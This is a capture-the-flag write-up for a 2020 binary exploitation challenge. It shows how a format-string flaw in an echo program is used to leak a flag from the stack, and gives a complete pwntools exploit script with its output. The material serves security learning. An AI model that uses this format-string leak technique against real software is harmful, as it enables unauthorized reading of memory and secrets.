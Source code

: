 # ECHO_AS_A_SERVICE
Binary Explotation, 50 points

## Description
> Echo as a service (EaaS) is going to be the newest hot startup! We've tapped a big market: Developers who really like SaaS.
> [echoasaservice](https://tamuctf.com/files/dca18c2059db76506b4f40666a163f9c/bbpwn)

We'll check the program protections, using `checksec`.

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ checksec echoasaservice
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Hm, so NX and PIE are enabled and no canary, from first look looks like we we'll need to leak some address so probably `format string` and possibly `buffer overflow` since the absence of a canary.

Lets run the program 

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ ./echoasaservice 
Echo as a service (EaaS)
bloop
bloop
Echo as a service (EaaS)
blip 
blip
Echo as a service (EaaS)
^C   
```

Looks like the program takes input in a `while True` and print's it, next step will be to reverse the program

![](images/image001.png)

## Vulnerability

The vulnerability is a *stack buffer overflow* and *format string* 

![](images/image002.png)

The program reads the flag and stores it on a buffer that is in the stack.

Because only `rdi` is initialized which means that there is only one parameter for `printf`.

[System V amd64 calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI)

## Solution

We we'll try to use the format string and leak the flag that is on the stack :)

Firstly I tried to just used %s multiple times hoping the flag will pop up sometime
but when I reached the eighth element on the stack I got `Segmentation fault`

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ ./echoasaservice 
Echo as a service (EaaS)
%8$s
Segmentation fault (core dumped)
```

Looks weird, I created a fake `flag.txt` file and initialized it with `AAAAAAAAAAAAAAA` so i could recognize the 0x41414141 if i will leak it.

```Console
echo 'AAAAAAAAAAAAAAA' > flag.txt
```

Lets try again, but with `%p` so will see some hex

```Console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ ./echoasaservice 
Echo as a service (EaaS)
%8$p
0x4141414141414141
```

Nice, we reached our flag, now we need to leak it all, looking at the assembly we can see that the length of the flag is `0x19`, the second parameter to `fgets`, so if the eighth element on the stack is the first eight characters of our flag (eight because our architecture is amd64) so we will need the ninth and tenth element as well, together with the null byte at the end of the flag its 25 bytes.

Lets write something that will leak for us:

```python
for i in xrange(8, 11):
	sh.sendlineafter('Echo as a service (EaaS)\n', '%{}$p'.format(i))
	print sh.recvline()[2:-1]
```

Output:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4251: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
61337b6d65676967
616d7230665f7973
7d316e6c75765f74
```

Now we'll decode

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4251: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
a3{megig
amr0f_ys
}1nluv_t
```

Looks like we got the flag :), but every part is reversed, lets reverse and concat

```python
from pwn import *
import sys

context.clear(arch='amd64', os='linux')

__author__ = 'yuvaly0'

argv = sys.argv
binary_path = './echoasaservice'
REMOTE = False
DEBUG = False

if len(argv) > 1:
	if argv[1] == 'remote':
		REMOTE = True
	if argv[1] == 'debug':
		DEBUG = True

if REMOTE:
	sh = remote('challenges.tamuctf.com', 4251)
else:
	sh = process([binary_path])

if DEBUG:
	gdb.attach(sh, '''
		b* main
		''')

e = ELF(binary_path)

# ------------- plan -----------
# use format string to leak the flag

flag = ''
for i in xrange(8, 11):
	sh.sendlineafter('Echo as a service (EaaS)\n', '%{}$p'.format(i))
	flag += sh.recvline()[2:-1].decode('hex')[::-1]

log.success(flag)
```

Output:

```console
yuvaly0@yuvalyo-blup:~/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE$ python exploit.py remote
[+] Opening connection to challenges.tamuctf.com on port 4251: Done
[*] '/home/yuvaly0/Desktop/ctf_not_git/2020_tamu/ECHO_AS_A_SERVICE_DONE/echoasaservice'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] gigem{3asy_f0rmat_vuln1}
```

Flag: `gigem{3asy_f0rmat_vuln1}`

